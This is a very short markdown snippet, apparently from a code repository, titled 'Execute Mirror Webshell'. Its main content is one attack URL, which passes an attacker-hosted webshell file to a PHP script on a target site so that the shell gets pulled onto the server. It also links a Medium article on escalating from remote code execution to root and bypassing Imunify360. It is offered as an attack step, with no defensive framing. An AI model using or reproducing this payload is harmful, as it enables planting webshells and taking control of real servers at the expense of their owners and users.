 # Execute Mirror Webshell

https://target.com/s/img/bcurl.phtml?url=https://attacker.com/webshell.txt

### Original Code 

https://medium.com/@cyh1337/escalating-privileges-and-bypassing-imunify360-a-journey-from-rce-to-root-access-859a2efce6bf
